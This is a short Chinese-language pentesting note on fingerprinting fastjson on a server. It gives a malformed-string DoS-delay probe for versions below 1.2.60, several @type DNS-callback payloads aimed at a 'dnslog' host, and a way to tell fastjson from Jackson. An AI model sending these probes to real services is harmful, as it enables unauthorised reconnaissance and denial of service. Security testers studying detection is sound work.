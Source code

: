 # 有错误回显

构造不规范的JSON字符串查看返回报错

# 无错误回显

## DOS延迟判断
fastjson在版本<1.2.60在取不到值的时候会填充\u001a，发生DOS，我们可以构造请求，通过响应延迟来判断是否使用的fastjson

使用 `{"a":"\x ` 作为payload发送至服务器，依靠延迟判断。如果是符合的版本(<1.2.60)，延迟会明显增大。

## DNS回显判断
通过DNS回显的方式检测后端是否使用的fastjson

```json
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"}}""}
{{"@type":"java.net.URL","val":"dnslog"}:"aaa"}
Set[{"@type":"java.net.URL","val":"dnslog"}]
Set[{"@type":"java.net.URL","val":"dnslog"}
{{"@type":"java.net.URL","val":"dnslog"}:0
```

# 判断是fastjson还是jackson
Jackson相对比较严格，强制key和javabean属性对齐，只能少不能多key

fastjson多key不会报错，我们可以多构造一个，因此大概率判断为fastjson（没有其它json解析库的情况下）